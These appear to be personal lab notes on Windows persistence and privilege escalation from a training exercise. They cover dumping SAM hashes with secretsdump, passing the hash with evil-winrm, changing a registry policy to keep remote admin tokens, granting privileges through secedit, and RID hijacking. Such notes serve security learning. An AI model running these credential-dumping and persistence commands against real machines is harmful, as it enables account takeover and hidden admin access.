


# Windows Persistance

## Privilege Escalation
Accesing the machine using WinRM
```sh
evil-winrm -i 10.10.10.10 -u user -p password
```

After spawning the reverse shell we will notice we still do not have permissions:
```sh
net localgroup administrators thmuser0 /add

BUILTIN\Backup Operators - Group used for deny only
```
This is due to User Account Control (UAC) and LocalAccountTokenFilterPolicy which will strip any local account of it's admin privileges during a remote log in.

## Disable LocalAccountTokenFilterPolicy
Change the following registry value:
```sh
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1
```

## Backup SAM and SYSTEM files
```sh
reg save hklm\system system.bak
reg save hklm\sam sam.bak
download system.bak
download sam.bak
```

## Dump password hashes
```sh
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
```

Pass the hash to evil-winrm. Remember to pass the proper hash segment (the second one)
```sh
evil-winrm -i 10.10.10.10 -u Administrator -H <HASH>
```

## SecEdit
Using `secedit` we can alter the configuration files to add our new user.
```sh
secedit /export /cfg config.inf
```
Add user to the end of the `SeBackupPrivilege` line
```sh
SeBackupPrivilege = *S-1-5-32-544,*S-1-5-32-551,username
SeRestorePrivilege = *S-1-5-32-544,*S-1-5-32-551,username
```

Open the configuration manager and add a new user
```sh
Set-PSSessionConfiguration -Name Microsoft.Powershell -showSecurityDescriptorUI
```

Note: for this user to work with the given privileges you need to change LocalAccountTokenFilterPolicy registry key.

## RID Hijacking
- Relative ID (RID)
- Assigned when a new user is created
- On login the LSASS process gets it's RID from the SAM registry and creates a token.
When a user is created, an RID is assigned to them. When a user logs on the LSASS process gets it's RID from the SAM registry.'
- Default admin is assign RID=500
- Regular users have RID >= 1000

If we can tamper with this registry value we can make windows assign an admin token to an unprivileged user by associating the same RID to both accounts.

The RID is located at the end of the SID string:
```sh
wmic useraccount get name,sid

Name                SID
Administrator       5-1-5-21-1966530601-3185510712-10604624-500
```

The SAM is restrictud to SYSTEM accounts only. Admin will not be able to edit it. 
```sh
PSExec64.exe -i -s regedit
```
Once the registry editor opens navigate to:
HKEY_LOCAL_MACHINE/SAM/SAM/Domaains/Account/Users

This will contain a key and value.  1010 = 0x3F2
key: F
value: HEX

Under the Users we can match this value to this user:
Users/000003F2


This RID is stored using little-endian notation so the bytes are reversed.

Replace the two bytes with RID of Administrator in hex (500 = 0x01F4), switching around the bytes to (F401)



